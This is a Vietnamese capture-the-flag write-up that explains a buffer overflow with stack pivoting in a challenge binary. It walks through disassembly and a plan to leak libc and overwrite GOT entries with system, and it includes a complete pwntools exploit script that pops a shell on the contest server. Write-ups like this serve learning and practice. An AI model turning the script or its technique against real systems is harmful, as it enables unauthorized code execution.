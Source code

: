 # BOF + stack pivoting

Kiểm tra các chế độ bảo vệ của chương trình ta có như sau :

![image](https://user-images.githubusercontent.com/93699926/236665571-90cbf9a4-7b0c-493a-8db5-3ccf9a857d21.png)

PIE và RELRO tắt thì nghĩ ngay là tấn công GOT thôi, CANARY cũng tắt sẽ dễ dàng hơn cho việc khai thác.

Kiểm tra luồng thực thi của chương trình qua IDA ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236665635-a51f60ea-a6d4-4926-95eb-7b6a182f7203.png)

Hàm vuln được thực hiện lại liên tục khi nó đặt trong vòng while_loop.
kiểm tra hàm vuln() ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236665716-f0bd6942-82f2-451f-852a-3e359c5494a1.png)

Ở đây ta thấy nó cho ta ghi tận 72 bytes vô buf[64] vậy là dư 8 byte ==> chỉ đủ để overwrite saved rbp của vuln, và sau khi hàm vuln trả về hàm main và tiếp tục thực thi câu lệnh kế ==> ta có thể thay đổi được rbp của main.
Nhưng thay đổi được rồi thì làm gì tiếp. đoạn này nếu xem pseuđôce thôi sẽ không thấy ta hãy sang phân tích mã assembly:

![image](https://user-images.githubusercontent.com/93699926/236665846-9496fbd8-205b-4788-9434-2837ec34f47e.png)

Ta thấy sau khi gọi hàm vuln nó sẽ thực hiện đoạn code sau :

```assembly
; lúc này sau khi vừa thực thi hàm vuln thì rax sẽ chứa địa chỉ của chuỗi ta vừa nhập ở hàm vuln
; RAX: 0x12345678 -> "AAAAAA..."
mov     rcx, [rax]        ;  nó sẽ lưu 8byte đầu vô rcx=> rcx="AAAAAAAA"
mov     rbx, [rax+8]      ; rbx="AAAAAAAA" 8 byte tiếp theo
mov     [rbp+var_50], rcx ; nó sẽ lưu RBP +offset var_0x50
mov     [rbp+var_48], rbx; nó sẽ lưu RBP +offset var_0x50
mov     rcx, [rax+10h] 
mov     rbx, [rax+18h]
mov     [rbp+var_40], rcx
mov     [rbp+var_38], rbx
mov     rcx, [rax+20h]
mov     rbx, [rax+28h]
mov     [rbp+var_30], rcx
mov     [rbp+var_28], rbx
mov     rdx, [rax+38h]     ; đến đây giống như ở trên thì ta có thể hiểu là nó sẽ coppy 0x40 bytes input của ta vô RBP+var_50
mov     rax, [rax+30h]
mov     [rbp+var_20], rax
mov     [rbp+var_18], rdx
```

kiểm tra stack của main ta có như sau:

![image](https://user-images.githubusercontent.com/93699926/236666165-4de06a6a-c3af-47ae-9693-8dbe21c53cb9.png)

cái giá biến var_50 sẽ mang giá trị là -0x50

Hiểu được luồng thực thi của chương trình thì ta sẽ có hướng khai thác như sau :
# PLAN
Step1: ta sẽ ghi đè biến global message với địa chỉ GOT của hàm nào đó để khi chương trình puts message ta sẽ leak được địa chỉ libc
Step2: ghi đè message với địa chỉ của chuỗi /bin/sh đã khi đã leak được libc
Step3: over write GOT của PUTS thành System

full script in p.py
```python
from pwn import *
context.binary=exe=ELF("./chall_patched",checksec=False)
libc=ELF("./libc.so.6",checksec=False)

#p=process(exe.path)
p=remote("junior-pwner.bsides.shellmates.club",443,ssl=True)
def GDB():
        gdb.attach(p,gdbscript=
                '''
                b*0x0000000000401311
                b*0x0000000000401327
                c
                '''
                )
        input()



#GDB()
rw_section=0x404a00
payload=b"A"*0x10
payload=flat(
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        exe.got['puts'],
        )
payload+=p64(exe.sym['messages']+0x30)
p.sendafter(b"Your Name:",payload)



leak=int.from_bytes(p.recvuntil(b"Your Name:",drop=True).split(b"\n")[1],"little")
log.info('[+]leak:'+hex(leak))
libc.address=leak-0x80ed0
log.info('[+]libc base:'+hex(libc.address))
log.info('[+]system:'+hex(libc.sym['system']))
payload=flat(
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        next(libc.search(b"/bin/sh")),
        )
payload+=p64(exe.sym['messages']+0x30)
p.send(payload)

print('[+]over writing puts got')
payload=flat(
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        libc.sym['system'],
        )
payload+=p64(exe.got['rand'])
p.sendafter(b"Your Name:",payload)

p.interactive()
```
 
Chạy chương trình trên sever ta có flag :

![image](https://user-images.githubusercontent.com/93699926/236666441-66557853-3ebe-41a0-9cf0-e3d4520597c9.png)


